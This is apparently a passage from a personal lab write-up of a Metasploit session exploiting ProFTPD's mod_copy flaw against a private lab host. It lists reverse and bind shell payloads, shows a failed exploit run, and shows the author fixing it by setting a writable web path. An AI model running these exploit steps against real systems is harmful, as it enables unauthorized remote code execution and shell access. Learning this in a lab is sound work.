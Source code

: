 ```
   4  payload/cmd/unix/reverse_awk                          normal  No     Unix Command Shell, Reverse TCP (via AWK)
   5  payload/cmd/unix/reverse_perl                         normal  No     Unix Command Shell, Reverse TCP (via Perl)
   6  payload/cmd/unix/reverse_perl_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   7  payload/cmd/unix/reverse_python                       normal  No     Unix Command Shell, Reverse TCP (via Python)
   8  payload/cmd/unix/reverse_python_ssl                   normal  No     Unix Command Shell, Reverse TCP SSL (via python)

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD payload/cmd/unix/bind_awk
PAYLOAD => cmd/unix/bind_awk
```

RHOSTS is set to my target 172.28.128.3.  
PAYLOAD is payload/cmd/unix/bind_awk.

I ran the exploit:
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > exploit

[*] 172.28.128.3:80 - 172.28.128.3:21 - Connected to FTP server
[*] 172.28.128.3:80 - 172.28.128.3:21 - Sending copy commands to FTP server
[-] 172.28.128.3:80 - Exploit aborted due to failure: unknown: 172.28.128.3:21 - Failure copying PHP payload to website path, directory not writable?
[*] Exploit completed, but no session was created.
```

A problem. So apparently something wrong with the target folder. i.e. no write permissions. At this point I had to do some online searches as I'm not all too familiar with metasploit. I managed to lose the exact site I got the answer to this problem from but the trick was to edit the folder path as follows: 
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
SITEPATH => /var/www/html

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.28.128.3     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www/html    yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/bind_awk):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  172.28.128.3     no        The target address


Exploit target:
```